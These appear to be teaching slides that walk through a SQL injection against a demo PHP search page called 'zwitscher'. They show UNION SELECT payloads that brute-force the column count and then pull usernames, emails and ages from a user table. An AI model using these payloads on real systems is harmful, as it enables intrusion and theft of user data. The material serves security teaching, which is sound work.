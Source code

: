 Input: <span style="color:crimson">#dog' UNION SELECT 1; --</span>

```php
$sql = "SELECT *
        FROM zwitscher
        WHERE hashtag = '#dog' UNION SELECT 1; -- ';
```

[Run code](../zwitscher/?search=%27+UNION+SELECT+1%3B+--+)

:(

--

## What now? Brutforce!

Input: <span style="color:crimson">#dog' UNION SELECT 1, 2; --</span>

```php
$sql = "SELECT * 
        FROM zwitscher
        WHERE hashtag = '#dog' UNION SELECT 1, 2; -- ';
```

[Run code](../zwitscher/?search=%27+UNION+SELECT+1%2C+2%3B+--+)

:(

--

## What now? Brutforce!

Input: <span style="color:crimson">#dog' UNION SELECT 1, 2, 3; --</span>

```php
$sql = "SELECT *
        FROM zwitscher
        WHERE hashtag = '#dog' UNION SELECT 1, 2, 3; -- ';
```

[Run code](../zwitscher/?search=%27+UNION+SELECT+1%2C+2%2C+3%3B+--+)

:)

---

## Third Try

- How many columns are in the result of the first query?
- Three columns!
- Select three columns: *username*, *mail*, *age*
<br />
<br />

Input: <span style="color:crimson">#dog' UNION SELECT username, mail, age FROM user; --</span>

```php
$sql = "SELECT *
        FROM zwitscher
        WHERE hashtag = '#dog' UNION SELECT username, mail, age FROM user; -- ';
```

